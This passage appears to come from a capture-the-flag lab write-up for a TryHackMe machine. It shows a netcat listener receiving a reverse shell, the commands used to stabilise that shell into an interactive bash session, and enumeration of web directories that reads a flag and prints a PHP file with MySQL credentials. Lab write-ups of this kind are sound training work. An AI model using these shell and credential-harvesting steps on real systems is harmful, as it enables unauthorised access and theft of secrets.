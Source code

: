 >>WE GOT THE REVERSE SHELL ,NOW WE NEED TO STABILIZE IT USE 
" python3 -c 'import pty;pty.spawn("/bin/bash")' " 
>>THEN USE "export TERM=xterm" ,THEN HIT "CTRL+Z" TO STOP 
>>THEN NORMAL SHELL WILL APPEAR NOW USE "stty raw -echo; fg" AFTER ENTERING IT THE NETCAT SESSION START AGAIN NOW THE SHELL IS STABILISED.

```bash
root@ip-10-10-211-127:~# nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.173.195 49092 received!
Linux light-cycle 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:57:26 up 48 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@light-cycle:/$ export TERM=xterm
export TERM=xterm

www-data@light-cycle:/$ ^Z
[1]+  Stopped                 nc -lvnp 9001

root@ip-10-10-211-127:~# stty raw -echo; fg
nc -lvnp 9001
```

>>GO TO "/var/www" TO GET THE web.txt AND GO TO THE "TheGrid" DIRECTORY AND LIST THE CONTENTS GO TO "includes" AND LIST THE CONTENTS AND CAT THE "dbauth.php" TO GET THE MYSQL CREDS.

```bash
www-data@light-cycle:/var/www$ ls
ENCOM  TheGrid	web.txt
www-data@light-cycle:/var/www$ cat web.txt 
THM{ENTER_THE_GRID}
www-data@light-cycle:/var/www/TheGrid$ ls
includes  public_html  rickroll.mp4
www-data@light-cycle:/var/www/TheGrid/includes$ ls
apiIncludes.php  dbauth.php  login.php	register.php  upload.php
www-data@light-cycle:/var/www/TheGrid/includes$ cat dbauth.php 
<?php
	$dbaddr = "localhost";
	$dbuser = "tron";
	$dbpass = "IFightForTheUsers";
	$database = "tron";

	$dbh = new mysqli($dbaddr, $dbuser, $dbpass, $database);
	if($dbh->connect_error){
		die($dbh->connect_error);
	}
?>
```
